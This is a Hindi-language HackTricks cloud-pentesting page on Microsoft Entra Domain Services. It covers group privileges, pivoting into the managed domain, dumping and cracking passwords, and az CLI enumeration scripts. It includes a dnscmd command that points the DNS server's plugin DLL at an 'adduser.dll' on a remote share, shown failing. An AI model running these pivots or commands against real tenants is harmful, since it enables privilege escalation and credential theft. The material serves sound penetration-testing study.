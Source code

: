 # Az - Microsoft Entra Domain Services

{{#include ../../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services आपको Azure में एक Active Directory तैनात करने की अनुमति देता है बिना Domain Controllers का प्रबंधन किए (वास्तव में, आपके पास उनके लिए भी पहुंच नहीं है)।

इसका मुख्य उद्देश्य आपको क्लाउड में पुराने अनुप्रयोगों को चलाने की अनुमति देना है जो आधुनिक प्रमाणीकरण विधियों का उपयोग नहीं कर सकते, या जहां आप नहीं चाहते कि निर्देशिका लुकअप हमेशा एक ऑन-प्रिमाइसेस AD DS वातावरण में वापस जाएं।

ध्यान दें कि Entra ID में उत्पन्न उपयोगकर्ताओं को (और अन्य सक्रिय निर्देशिकाओं से समन्वयित नहीं) AD डोमेन सेवा में समन्वयित करने के लिए आपको **उपयोगकर्ता का पासवर्ड** एक नए में बदलना होगा ताकि इसे नए AD के साथ समन्वयित किया जा सके। वास्तव में, उपयोगकर्ता का समन्वय Microsoft Entra ID से Domain Services में तब तक नहीं होता जब तक पासवर्ड नहीं बदला जाता।

> [!WARNING]
> भले ही आप एक नया सक्रिय निर्देशिका डोमेन बना रहे हों, आप इसे पूरी तरह से प्रबंधित नहीं कर पाएंगे (कुछ गलत कॉन्फ़िगरेशन का लाभ उठाने के बिना), जिसका अर्थ है कि डिफ़ॉल्ट रूप से उदाहरण के लिए आप AD में सीधे उपयोगकर्ता नहीं बना सकते। आप उन्हें **Entra ID से उपयोगकर्ताओं का समन्वयित करके** बनाते हैं। आप सभी उपयोगकर्ताओं को समन्वयित करने के लिए संकेत दे सकते हैं (यहां तक कि अन्य ऑन-प्रिमाइसेस AD से समन्वयित उपयोगकर्ता), केवल क्लाउड उपयोगकर्ता (Entra ID में बनाए गए उपयोगकर्ता), या यहां तक कि **उन्हें और अधिक फ़िल्टर करें**।

> [!NOTE]
> सामान्यतः, नए डोमेन की कॉन्फ़िगरेशन में लचीलापन की कमी और तथ्य यह है कि AD आमतौर पर पहले से ही ऑन-प्रिमाइसेस होते हैं, यह Entra ID और AD के बीच मुख्य एकीकरण नहीं है, लेकिन फिर भी इसे समझना दिलचस्प है कि इसे कैसे समझौता किया जा सकता है।

### Pivoting

उत्पन्न **`AAD DC Administrators`** समूह के सदस्य उन VMs पर स्थानीय व्यवस्थापक अनुमतियाँ प्राप्त करते हैं जो प्रबंधित डोमेन से जुड़े होते हैं (लेकिन डोमेन नियंत्रकों में नहीं) क्योंकि उन्हें स्थानीय व्यवस्थापक समूह में जोड़ा जाता है। इस समूह के सदस्य **Remote Desktop का उपयोग करके डोमेन-जोड़े गए VMs से दूरस्थ रूप से कनेक्ट** कर सकते हैं, और ये समूहों के भी सदस्य हैं:

- **`Denied RODC Password Replication Group`**: यह एक समूह है जो उन उपयोगकर्ताओं और समूहों को निर्दिष्ट करता है जिनके पासवर्ड RODCs (Read-Only Domain Controllers) पर कैश नहीं किए जा सकते।
- **`Group Policy Creators Owners`**: यह समूह सदस्यों को डोमेन में समूह नीतियाँ बनाने की अनुमति देता है। हालाँकि, इसके सदस्य उपयोगकर्ताओं या समूहों पर समूह नीतियाँ लागू नहीं कर सकते या मौजूदा GPOs को संपादित नहीं कर सकते, इसलिए यह इस वातावरण में इतना दिलचस्प नहीं है।
- **`DnsAdmins`**: यह समूह DNS सेटिंग्स का प्रबंधन करने की अनुमति देता है और अतीत में [अधिकार बढ़ाने और डोमेन को समझौता करने के लिए दुरुपयोग किया गया था](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), हालाँकि इस वातावरण में हमले का परीक्षण करने के बाद यह जांचा गया कि भेद्यता पैच की गई है:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
ध्यान दें कि इन अनुमतियों को देने के लिए, AD के अंदर **`AAD DC Administrators`** समूह को पिछले समूहों का सदस्य बनाया गया है, और GPO **`AADDC Computers GPO`** सभी सदस्यों को स्थानीय प्रशासकों के रूप में जोड़ रहा है जो डोमेन समूह **`AAD DC Administrators`** के हैं।

Entra ID से Domain Services के साथ बनाए गए AD में पिवोट करना सीधा है, बस **`AAD DC Administrators`** समूह में एक उपयोगकर्ता जोड़ें, डोमेन में किसी भी/सभी मशीनों पर RDP के माध्यम से पहुंचें और आप डेटा चुरा सकेंगे और साथ ही **डोमेन को भी समझौता कर सकेंगे।**

हालांकि, डोमेन से Entra ID में पिवोट करना इतना आसान नहीं है क्योंकि डोमेन से कुछ भी Entra ID में समन्वयित नहीं हो रहा है। हालांकि, हमेशा सभी VMs के मेटाडेटा की जांच करें जो उनके असाइन किए गए प्रबंधित पहचान के रूप में दिलचस्प अनुमतियाँ हो सकती हैं। साथ ही **डोमेन से सभी उपयोगकर्ताओं के पासवर्ड को डंप करें** और उन्हें क्रैक करने की कोशिश करें ताकि फिर Entra ID / Azure में लॉगिन किया जा सके।

> [!NOTE]
> ध्यान दें कि अतीत में इस प्रबंधित AD में अन्य कमजोरियाँ पाई गई थीं जो DCs को समझौता करने की अनुमति देती थीं, [जैसे कि यह](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com)। एक हमलावर जो DC को समझौता करता है, बहुत आसानी से स्थिरता बनाए रख सकता है बिना Azure प्रशासकों को नोटिस किए या यहां तक कि इसे हटाने में सक्षम होने के बिना।

### Enumeration
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../../banners/hacktricks-training.md}}
